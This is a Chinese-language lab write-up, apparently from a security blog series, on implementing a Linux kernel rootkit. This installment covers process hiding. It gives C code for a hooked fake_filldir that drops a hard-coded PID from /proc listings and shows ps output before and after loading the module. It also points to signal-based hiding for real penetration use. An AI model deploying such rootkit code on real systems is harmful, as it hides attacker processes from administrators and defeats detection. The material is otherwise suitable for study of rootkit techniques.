 ```yaml
---
category: Sec
title: Linux Rootkit 实验 | 00023 Rootkit 基本功能实现x隐藏进程
---
```


## Linux Rootkit 实验 | 00023 Rootkit 基本功能实现x隐藏进程

### 实验说明

本次实验将初步实现 rootkit 的基本功能：

- 阻止其他内核模块加载
- 提供 root 后门
- 隐藏文件
- 隐藏进程
- 隐藏端口
- 隐藏内核模块

本次实验基于 0001 实验中学习的挂钩技术。

注：由于本次实验内容过多，故分为`00020`到`00025`六个实验报告分别讲解。

**本节实现“隐藏进程”功能**

### 实验环境

```
uname -a:
Linux kali 4.6.0-kali1-amd64 #1 SMP Debian 4.6.4-1kali1 (2016-07-21) x86_64 GNU/Linux

GCC version:6.1.1
```

上述环境搭建于虚拟机，另外在没有特殊说明的情况下，均以 root 权限执行。

**注：后面实验参考的是4.10.10的源码**

### 实验过程

#### 隐藏进程

“Linux 上纯用户态枚举并获取进程信息，/proc 是唯一的去处。所以，对用户态隐藏进程，我们可以隐藏掉/proc 下面的目录，这样用户态能枚举出来进程就在我们的控制下了。”

我们只需要把`fake_filldir`修改一下，改为匹配进程号即可：

{% highlight c %}
int
fake_filldir(struct dir_context *ctx, const char *name, int namlen,
             loff_t offset, u64 ino, unsigned d_type)
{
    char *endp;
    long pid;

    // 把字符串变成长整数。
    pid = simple_strtol(name, &endp, 10);

    if (pid == SECRET_PROC) {
        // 是我们需要隐藏的进程，直接返回。
        printk("Hiding pid: %ld", pid);
        return 0;
    }
    // 不是需要隐藏的进程，交给真的 ``filldir`` 填到缓冲区里。
    return real_filldir(ctx, name, namlen, offset, ino, d_type);
}
{% endhighlight %}

测试结果如下：

图片中一个 shell 的`PID`是`3033`。在没有加载模块之前，`ps`可以看到该进程。在加载模块之后，`ps`中无该进程：

![]({{ site.url }}/resources/pictures/linux-rkt-18.png)

卸载模块后，进程重新在`ps`中出现：

![]({{ site.url }}/resources/pictures/linux-rkt-19.png)

### 实验问题

【问题一】

本实验中，我们是把进程号写死在代码里，这样十分不方便。很明显，在实际渗透过程中，我们需要隐藏的进程的进程号只有在运行时才知道。一种可以借鉴的改进思路是：新设定一个信号，模块运行时，我们给哪个进程发该信号，那个进程就被隐藏起来。这是 [m0nad/Diamorphine](https://github.com/m0nad/Diamorphine) 这个 rootkit 的设计。未来我会写一篇文章专门分析这个 rootkit，它的其他思路也是很有意思的。